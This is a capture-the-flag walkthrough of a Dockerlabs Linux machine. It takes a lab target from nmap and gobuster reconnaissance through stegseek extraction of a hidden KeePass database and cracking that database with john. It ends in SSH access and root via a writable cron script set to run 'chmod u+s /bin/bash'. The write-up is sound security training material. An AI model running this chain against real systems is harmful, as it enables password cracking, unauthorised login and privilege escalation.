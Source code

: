 
![dockerlabs](https://github.com/user-attachments/assets/b3d3aade-08ea-4beb-8df9-716546c86b98)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [El pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)         | [Dockerlabs](https://dockerlabs.es/)     | Medium           | Linux   |

---









- I start with a scan of the open ports
  
  ```bash
  nmap -p- -vvv --min-rate 5000 -Pn -sS 172.17.0.2 -oG scan
  ```
  
  ![Untitled](https://github.com/user-attachments/assets/0aec04f2-d4fa-4310-9341-d62b813bfcf9)


- Scanning open ports

  ```bash
  nmap -p22,80 -sCV 172.17.0.2 -oN ports
  ```
  
  ![Untitled 1](https://github.com/user-attachments/assets/6256a6a7-661a-4b7e-87e2-00da609dd990)


- I access to the website

  ![Untitled 2](https://github.com/user-attachments/assets/91e182c6-ebbc-4e77-91cf-6fcf2dc21741)


- I will perform fuzzing to try to find directories

  ```bash
  gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt -t 300
  ```
  
  ![Untitled 3](https://github.com/user-attachments/assets/f67b67c6-a506-4931-8f29-d739d82d405c)


- Since I do not find anything relevant, I will perform fuzzing to find files

  ```bash
  gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt -t 500 -x .php,.js,.txt,.html,.py,.sh
  ```
  
  ![Untitled 4](https://github.com/user-attachments/assets/6999b06a-f351-4cce-8feb-c3ace4cdb5b7)
  

- I access the website penguin.html

  ![Untitled 5](https://github.com/user-attachments/assets/10ca605a-6485-420b-8a52-42655c85500d)


- I download the image and look for hidden chains or files

  ```bash
  strings penguin.jpg
  stegseek penguin.jpg 
  ```
  
  ![Untitled 6](https://github.com/user-attachments/assets/64bf0fb6-11c4-45b6-b099-29da19948f10)


- I find a file with the extension kdbx. I change its name, I get its hash and I try to get its password

  ```bash
  mv  penguin.jpg.out  penguin.kdbx
  keepass2john penguin.kdbx > hash
  john --wordlist=/usr/share/wordlist/rockyou.txt hash
  ```
  
  ![Untitled 7](https://github.com/user-attachments/assets/6a7b8f9b-9e4a-4a03-add1-441ef0aebcb2)


- I use the password found to see the content of the file
  
  ![Untitled 8](https://github.com/user-attachments/assets/0192e806-efaa-4beb-b14f-5f4d0fcf37f1)


- I find a username and password. I tried to log in with ssh

  ![Untitled 9](https://github.com/user-attachments/assets/462d0684-c2dd-4105-a60c-7a6839fa4dd5)


- Once inside I find two files. I list the processes that are running on the system
  
  ```bash
  ps -aux
  ```
  
  ![Untitled 10](https://github.com/user-attachments/assets/457e32eb-4b9f-4f55-b6ce-986264e4fc20)
  
  
  ![Untitled 11](https://github.com/user-attachments/assets/3921830a-e229-47c1-8a11-45c3f964ec9e)
  
  
  ![Untitled 12](https://github.com/user-attachments/assets/5d3ac9a8-498f-4d30-8a8d-01dab8662dd9)


- I observe that the script is executed periodically and that I have write permission on it
- I add a command to be able to run as root
  
  ```bash
  nano script.sh
  
  chmod u+s /bin/bash
  ```
  
  ![Untitled 13](https://github.com/user-attachments/assets/b71d9e9c-d9f5-4884-8c05-2cd3888c3470)
  

- I see that the script has been executed and now I can spawn a terminal as root
  
  ```bash
  /bin/bash -p
  ```
  ![Untitled 14](https://github.com/user-attachments/assets/9f19662b-dc4c-42ce-ba98-2bdcfd1f5c84)
